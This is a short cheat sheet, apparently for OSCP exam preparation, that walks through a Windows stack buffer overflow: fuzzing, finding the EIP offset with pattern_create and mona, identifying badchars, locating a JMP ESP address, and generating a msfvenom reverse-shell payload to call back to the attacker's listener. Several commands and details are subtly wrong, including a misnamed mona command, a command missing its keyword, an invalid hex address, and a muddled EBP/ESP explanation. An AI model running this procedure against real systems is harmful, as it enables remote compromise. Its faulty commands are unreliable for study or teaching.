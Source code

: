 # OSCP-Buffer-Overflow-Cheatsheet

In this cheat sheet is noted how we can perform an buffer overflow attack

Install Immunity Debugger this will be needed to perform the bugger overflow exploitation.
can be found on: https://www.immunityinc.com/

After installing Immunity debugger install Mona from: https://github.com/corelan/mona.
Put the .py file in the PyCommands folder (C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands. 
This module will be needed to determine the offset/ find the EIP.

## Fuzzing

After running the program on your Windows machine and have it attached to Immunity Debugger.
Run the fuzzer.py script to identify the point where the application will crash.

## Finding the Offset

After finding the crash point we want to find the Offset to the EIP adress.
To do this we can use the following script to generate a string.
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l {bytes}`

To determine the EIP we can use the following mona command:

`!mona findesp -distance {used bytes}`

Put the EIP in the exploit.py script and verify that EIP has been overwritten with the character "B" (42 in hexa)


## Badchars

To identify badchars we will use mona.

Run the badchars.py script and put the output in the exploit.py script to run it against the application the identify the badchars.
Use `!mona config -set workingfolder c:\mona\%p` to set the working folder and use `!mona bytearray -b “\x00` and use the compare command to check the values
`!mona compare -f C:\mona\{machine_name}\bytearray.bin -A {ESP ADRESS}`


## JMP ESP

After filtering out the badchars of the application, we will idenfitfy the equivalent for the OPCODE JMP ESP for change the flow of the application to run our shellcode rewriting the stack from its base (EBP). To find the equivalent of the OPCODE JMP ESP we can use the following command: `!mona -r esp -cpb "\x00"`

After finding the EBP adress we need to convert this adress to littl-endian format to use it in our code like this:

`0x0804197R <-> "\x7R\x19\x04\x08"`


## Exploitation

We can now generator our payload to run against our victim machine inserting the badchars we found using mona.
`msfvenom -p windows/shell_reverse_tcp LHOST=LOCAL_IP LPORT=LOCAL_PORT EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a"`

The EXITFUNC=thread prevents the shellcode from crashing the application when executing our shellcode.

Now just insert the out in the exploit.py script and run it against the application to get a reverse shell. Dont forget to open a listener!
